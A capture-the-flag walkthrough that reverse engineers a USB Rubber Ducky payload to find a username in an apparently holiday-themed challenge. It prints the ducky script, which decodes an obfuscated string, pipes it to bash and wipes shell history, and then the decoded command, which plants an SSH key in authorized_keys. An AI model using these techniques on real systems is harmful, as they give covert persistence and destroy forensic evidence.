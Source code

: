 # OBJECTIVE 5 - Strange USB Device #

## OBJECTIVE : ##
>Assist the elves in reverse engineering the strange USB device.  Visit Santa’s Talks Floor and hit up Jewel Loggins for advice.
#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 5</summary>
  
>-	[Ducky Script](https://docs.hak5.org/hc/en-us/articles/360010555153-Ducky-Script-the-USB-Rubber-Ducky-language) is the language for the USB Rubber Ducky
>-	Attackers can encode Ducky Script using a [duck encoder](https://docs.hak5.org/hc/en-us/articles/360010471234-Writing-your-first-USB-Rubber-Ducky-Payload) for delivery as `inject.bin`.
>-	It's also possible the reverse engineer encoded Ducky Script using [Mallard](https://github.com/dagonis/Mallard).
>-	The [MITRE ATT&CK™ tactic T1098.004](https://attack.mitre.org/techniques/T1098/004/) describes SSH persistence techniques through authorized keys files.

</details>

#  

## PROCEDURE : ##

The **Strange USB Device** is located on the 2nd floor in the **Speaker Un-Preparedness Room** (by the vending machine).  

At first glance there is a file `inject.bin` in the `/mnt/USBDEVICE/` directory, the contents of which appear to be unreadable.  From the hints and narrative, I know that this is some kind of Rubber Ducky USB device mounted to the terminal.  Conveniently we also find `mallard.py` 

```
DELAY 200
STRING echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
ENTER
DELAY 600
STRING history -c && rm .bash_history && exit
ENTER
DELAY 600
GUI q
```

That hash at the start of the file is particularly interesting – it also seems to be followed by some handy instructions for us!  So, by first running `rev` to reverse the hash and then `base64 -d` to decode it, we get the following:

```
echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
```

And there it is – we have a username!  **`ickymcgoop`**`@trollfun.jackfrosttower.com`

 
